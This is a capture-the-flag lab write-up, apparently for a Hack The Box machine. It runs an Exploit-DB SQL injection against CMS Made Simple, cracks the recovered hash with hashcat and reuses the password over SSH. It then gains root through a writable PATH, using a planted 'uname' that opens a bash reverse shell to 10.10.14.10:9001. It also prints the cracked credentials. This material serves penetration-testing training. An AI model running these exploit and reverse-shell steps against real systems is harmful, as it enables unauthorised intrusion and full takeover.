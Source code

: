 Target: 10.10.10.138  

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.138         

Nmap scan report for 10.10.10.138
Host is up (0.033s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.138  

![index](writeup1.png)

checking robots.txt

![robots.txt](writeup2.png)

checking /writeup

![/writeup](writeup3.png)

checking src:/writeup

![src:/writeup](writeup4.png)

### Findings:Looking for attack vectors

Search for cms made simple exploits.


## Foothold:

searching for the cms version in google 

![cms version](writeup5.png)

downloading the exploit
```
wget https://www.exploit-db.com/raw/46635
```

editing exploit to run in python3

[edit guide link](https://gist.github.com/pdelteil/6ebac2290a6fb33eea1af194485a22b1)

running the exploit
```
$ python3 46635.py -u http://10.10.10.138/writeup

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

preparing hash
```
$ vim nhash.txt

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

cracking the hash
```
$ hashcat -m 20 -o crack.txt nhash.txt /usr/share/wordlists/rockyou.txt

$ cat crack.txt

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

Loot:

`jkr:raykayjay9`

testing for password re-use
```
$ ssh jkr@10.10.10.138                                  

jkr@writeup:~$ id

uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

```
jkr@writeup:~$ cat user.txt 

<redacted>
```


## Priv Escalations:

enumerating with pspy while attempting an ssh login
```
jkr@writeup:~$ ./pspy32

<snip>
2021/07/05 00:59:20 CMD: UID=0    PID=26989  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new                                  
2021/07/05 00:59:20 CMD: UID=0    PID=26990  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/05 00:59:20 CMD: UID=0    PID=26991  | /bin/sh /etc/update-motd.d/10-uname 
<snip>
```

enumerating file
```
jkr@writeup:~$ cat /etc/update-motd.d/10-uname

#!/bin/sh
uname -rnsom
```

enumerating with linpeas
```
<snip>
[+] PATH
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses     
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games     
New path exported: /usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/sbin:/usr/sbin:/sbin
<snip>
```

exploiting writable path
```
jkr@writeup:~$ cd /tmp

echo "bash -i >& /dev/tcp/10.10.14.10/9001 0>&1" > uname

chmod 777 uname

cp uname /usr/local/bin/
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

attempting an ssh login
```
$ ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
```

```
# id 

uid=0(root) gid=0(root) groups=0(root)
```

```
cat /root/root.txt

<redacted>
```
